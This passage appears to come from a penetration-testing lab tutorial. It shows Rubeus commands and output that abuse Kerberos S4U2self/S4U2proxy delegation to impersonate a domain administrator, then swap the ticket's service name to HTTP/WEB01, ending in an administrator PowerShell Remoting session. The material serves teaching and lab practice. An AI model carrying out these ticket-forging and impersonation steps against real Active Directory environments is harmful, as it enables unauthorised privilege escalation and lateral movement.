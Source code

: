 ```powershell
[+] TGT request successful!
[*] base64(ticket.kirbi):

   doIFqDCCBaSgAwIBBaEDAgEWooI<SNIP>

[*] Action: S4U

[*] Building S4U2self request for: '[email protected]'
[*] Using domain controller: DC02.inlanefreight.local (172.16.92.10)
[*] Sending S4U2self request to 172.16.92.10:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '[email protected]'
[*] base64(ticket.kirbi):

   doIGDDCCBgigAwIBBaEDAgEWooIFDDCCBQhhg<SNIP>

[*] Impersonating user 'administrator' to target SPN 'dmserver/DBSRV003'
[*] Building S4U2proxy request for service: 'dmserver/DBSRV003'
[*] Using domain controller: DC02.inlanefreight.local (172.16.92.10)
[*] Sending S4U2proxy request to domain controller 172.16.92.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'dmserver/DBSRV003':

   doIGtDCCBrCgAwIBBaEDAgEWooIFuDCCBbRhggWw<SNIP>

```

Similar to the Ghost SPN-Jacking scenario, the service name on the ticket wouldn't directly allow access to `WEB01`, but we can alter the service name and host name to use the ticket against our target computer. We will use `HTTP/WEB01` instead of `CIFS` to connect to `PowerShell Remoting` instead of using `PSExec`:

```powershell
PS C:\Tools> .\Rubeus.exe tgssub /ticket:doIGtDCCBrCgAwIBBaEDAgEWooIF<SNIP> /altservice:HTTP/WEB01 /nowrap

  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Service Ticket sname Substitution

[*] Substituting in alternate service name: HTTP/WEB01

 ServiceName       : HTTP/WEB01
 ServiceRealm      : INLANEFREIGHT.LOCAL
 UserName        : administrator (NT_ENTERPRISE)
 UserRealm        : INLANEFREIGHT.LOCAL
 StartTime        : 3/27/2024 6:00:42 PM
 EndTime         : 3/28/2024 4:00:42 AM
 RenewTill        : 4/3/2024 6:00:42 PM
 Flags          : name_canonicalize, pre_authent, renewable, forwardable
 KeyType         : aes128_cts_hmac_sha1
 Base64(key)       : EWbZ9fL3M1AIniBJZj/KRw==
 Base64EncodedTicket :

  doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1hggWp<SNIP>

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname